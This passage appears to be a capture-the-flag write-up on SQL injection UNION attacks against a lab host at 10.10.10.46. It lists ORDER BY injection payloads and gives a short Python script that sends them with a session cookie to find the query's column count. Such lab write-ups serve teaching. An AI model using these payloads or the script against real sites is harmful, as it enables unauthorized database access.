 ### UNION select
- Source
  - [SQLinjection UNION attacks[PortSwigger]](https://portswigger.net/web-security/sql-injection/union-attacks)

### Finding Columns for attack
- Finding how many columns for SQL injection attack
- By inserting this into `search field`:
  -  `' ORDER BY 1--`
  -  `' ORDER BY 2--`
  -  `' ORDER BY 3--` .. and so on.
  	-  Until you've found an error.

### Python script
- However, I'm kinda lazy. So, I made python script for it.

```python
#!/usr/bin/env python3

import requests

for i in range(1,100):
    url = f"http://10.10.10.46/dashboard.php?search=' ORDER BY {i} --"
    c = {'PHPSESSID':'lfbncgq98bat28uu4v3r4j2dnh'}
    r = requests.get(url, cookies=c)
    if len(r.content) == 2449:
        print(f"Error Not Here {i}")
    else:
        print(f"Error Here {i}")
```

- the result

![checking columns](12.png "checking columns")

- By looking at this result, we've found 5 columns.

### Finding Columns with useful data

{{< admonition info >}}
Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.
{{< /admonition >}}
